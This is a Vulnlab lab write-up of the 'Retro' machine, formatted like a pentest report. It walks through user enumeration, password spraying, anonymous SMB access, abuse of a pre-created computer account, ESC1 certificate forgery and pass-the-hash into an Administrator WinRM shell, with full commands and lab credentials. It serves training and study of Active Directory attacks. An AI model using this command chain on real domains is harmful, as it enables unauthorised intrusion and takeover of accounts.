

This is the write-up for the Retro machine from Vulnlab.

# Executive Summary

[Untitled](Untitled%20e17e265ffb5f4c0ab16bc00792e86d6c.csv)

It was found an amount of 4 vulnerabilities, which are 2 critical, 1 high and 1 medium.

# Enumeration

First, we execute a full port scan on the host.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/retro]
╰─ $ ports=$(sudo nmap -p- --min-rate=300 --max-rate=500 10.10.98.41 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
```

Now, we execute a port scan only on the open ports we found on the scan executed before.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/retro]
╰─ $ sudo nmap -vv -sV -sC -Pn -p$ports -oA nmap/retro 10.10.98.41
```




We found a domain name and a domain controller name, so we add it to our local hosts file.


We enumerate the users from the machine through the Kerberos service, and we got the following users:


<aside>
 *We can enumerate users using netexec, running as the following:*
`   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.100.137 -u ' ' -p '' --rid-brute`


</aside>

## HIGH    -  Weak Password Policy

<aside>
 *We can use* `awk` *and/or* `cut` *commands to generates a clean user list:*
`   th3g3ntl3m4n   ~/vulnlab/retro  cat netexec_brute_rid_out.txt | awk '{print $6}' | cut -d "\\" -f 2 > users.txt`

</aside>

## MEDIUM    -  SMB Anonymous Login (SMB Null Session)

<aside>
 *We can apply a password spray attack, setting as password, initially, an empty value:*
`   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.100.137 -u users.txt -p '' --continue-on-success`


</aside>

<aside>
 *Another enumeration we can execute, is testing if the username is the same as the password:*
`   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.100.137 -u users.txt -p users.txt --no-bruteforce --continue-on-success`


</aside>

Enumerating the SMB shares, we were able to log into as an anonymous session, just not passing any credentials.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  smbclient -L //10.10.71.93 -N
```


We were able to find two SMB shares. In the Notes share, we can access the share, but we can not execute commands, like ls in it. In the Trainee share, we found a file called Important.txt. We downloaded it to our local machine, and read it.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  smbclient //10.10.71.93/Trainees -N
```


The file says that Trainees has difficult to remember complex passwords, so the Admins decided to create a unique credential for the Trainees. Earlier, we enumerate some users on the host, and we were able to check the user `trainee` was created on the machine. Based on the note left in the SMB Trainees share, we execute `netexec` tool using the `trainee:trainee` credentials.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.71.93 -u trainee -p trainee
```


We are able to log into SMB with this credential. Now, we enumerate which SMB shares this account can have access.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.71.93 -u trainee -p trainee --shares
```


The same SMB shares were shown, but now, we can read the Notes’ share. We log onto SMB, and we verify we could list files in this share. So, we download it to our local machine and read it.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  smbclient //10.10.71.93/Notes -U trainee
```


Based on this text file, they could update some old things on their environment. But there is a **pre-created computer account** which exists yet. Earlier, on our user enumeration, we could check that there is an account called banking, so, checking this article: https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts, we can see that the computer accounts that was created with the check to ***“Assign this computer account as a pre-Windows 2000 computer”***, we know the password’s computer account is the same as the name account, but on lowercase. Based on the article, we execute the Impacket smbclient tool using the correct credential, and the wrong credential, and we could check that the `baking$` computer account exists, and the password is `banking`.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  impacket-smbclient retro.vl/banking\$:banking@10.10.71.93
   th3g3ntl3m4n   ~/vulnlab/retro  impacket-smbclient retro.vl/banking\$:wrongpass@10.10.71.93
```


We can not use this computer account without change its password. We can not change the password through SMB, this is due to the fact that you need to authenticate to the `IPC$` share, and our identified computer account cannot be a pre-created computer account that has not had its password changed. According to the [official documentation](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/password-change-mechanisms), we can change a password to a computer account using one of the six (6) ways:

1. The NetUserChangePassword protocol
2. The NetUserSetInfo protocol
3. The Kerberos change-password protocol (IETF Internet Draft Draft-ietf-cat-kerb-chg-password-02.txt) - port 464
4. Kerberos set-password protocol (IETF Internet Draft Draft-ietf-cat-kerberos-set-passwd-00.txt) - port 464
5. Lightweight Directory Access Protocol (LDAP) write-password attribute (if 128-bit Secure Sockets Layer (SSL) is used)
6. XACT-SMB for pre-Microsoft Windows NT (LAN Manager) compatibility

A little understanding of some of the currently available tools and how they fit into the Microsoft password change protocol documentation:

<aside>
ℹ️ *- Smbpasswd / rpcclient (chgpasswd, chgpasswd2, chgpasswd3) uses the NetUserChangePassword protocol using the SAMR ChangePasswordUser2.
- Kpasswd uses the Keberos change-password protocol on port 464.
-  Ldappasswd and Windows LDP use the LDAP method, but as stated before, in order to set the password through LDAP, you will need the reset password permission (set password), and by default a computer account does not have that on its own object.*

</aside>

# Exploitation

Here we can use just the 1 and the 2 options. In the article mentioned earlier, there is a [script](https://github.com/api0cradle/impacket/blob/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py) that can change the computer account password through RPC. We downloaded it, and execute as the following:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  python3 rpcchangepwd.py retro.vl/banking\$:banking@10.10.71.93 -newpass 'hacker@123'
```


Now, using the Impacket smbclient tool, we were able to log into the SMB share with the `banking$` computer account.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  impacket-smbclient retro.vl/banking\$:'hacker@123'@10.10.71.93
```


<aside>
✅ *We can execute the attack first, getting a Ticket (TGT), and then log into the Domain Controller (`dc.retro.vl`) using the ticket generated instead of the password. Doing it that way, we do not have to change the actual password for the computer account in order to use it.*
`   th3g3ntl3m4n   ~/vulnlab/retro  getTGT.py retro.vl/banking\$:'hacker@123'
   th3g3ntl3m4n   ~/vulnlab/retro  export KRB5CCNAME=banking\$.ccache
   th3g3ntl3m4n   ~/vulnlab/retro  impacket-smbclient -k -no-pass retro.vl/banking\$@dc.retro.vl`


</aside>

In this point, I get stuck. So I back to the netexec tool to enumerate the DC using its modules. First, we start with the `adcs` module on LDAP functionality.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  netexec ldap 10.10.100.137 -u trainee -p trainee -L
```


Executing the module adcs from netexec:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  netexec ldap 10.10.100.137 -u trainee -p trainee -M adcs
```


## **CRITICAL**   - **Exploiting ADCS (Active Directory Certificate Service)**

We start searching for vulnerable certificates:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  certipy-ad find -u trainee@dc.retro.vl -p trainee -vulnerable -stdout
```


As we can see, we got a vulnerable certificate, ESC1. Now, we request a certificate from template “`RetroClients` (which it showed on the vulnerable certificate above)”, the User Principal Name (UPN) for Administrator account, because it is on the `Enrollment Permissions`, and we specify the *Certificate Authority (CA)*, in this case is `retro-DC-CA`, for the last.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  certipy-ad req -u trainee@dc.retro.vl -p trainee -template 'RetroClients' -upn Administrator -ca retro-DC-CA
```


We can not enroll a certificate, because we need a computer account (which we already have - the `banking$`). 

> *We could try to add a new computer account as trainee, since any account on the domain controller, by default, are able to create a computer account. But in this case, the user trainee exceed the quota, what is 10 by default, but here was set to 0.
`   th3g3ntl3m4n   ~/vulnlab/retro  impacket-addcomputer 'retro.vl/trainee:trainee’
   th3g3ntl3m4n   ~/vulnlab/retro  netexec ldap 10.10.100.137 -u trainee -p trainee -M MAQ`*
> 


## *Requesting A Certificate Using A Computer Account*

Using the computer account `banking$` that we previously change the password, or we get a TGT for the account, we can request a certificate using the `certipy` tool:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  certipy-ad req -k -no-pass -template 'RetroClients' -upn Administrator -ca retro-DC-CA -target dc.retro.vl -key-size 4096
*# OBS.: You might execute the certipy command more than one time to this work*
```


# Privilege Escalation

## CRITICAL    - Retrieving NTLM Hash For Administrator User Through A Certificate (ESC1)

Now, we use the `administrator.pfx` certificate to generate before, and retrieve, through a TGT request, the Administrator’s NTLM hash.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  certipy-ad auth -pfx administrator.pfx -username Administrator -domain retro.vl
```


Checking if we really compromised the Administrator account, we execute the netexec smb using the pass-the-hash technique:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  netexec smb 10.10.100.137 -u Administrator -H 252fac7066d93dd009d4fd2cd0368389
```


Now, we just have to get a WinRM shell using the Administrator’s NTLM hash:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  evil-winrm -i retro.vl -u Administrator -H 252fac7066d93dd009d4fd2cd0368389
```


# Appendix

## *1)   Compromised Users*

| USERNAME | PASSWORD | METHOD | NOTES |
| --- | --- | --- | --- |
| trainee | `trainee` | SMB share file | Poor password’s policy |
| banking$ | `banking` | SMB share file | Computer account created as pre-Windows 2000 computer checkmark |
| Administrator | `252fac7066d93dd009d4fd2cd0368389` | ESC1 ADCS Vulnerable | Hash NTLM - Pass-The-Hash to get a shell |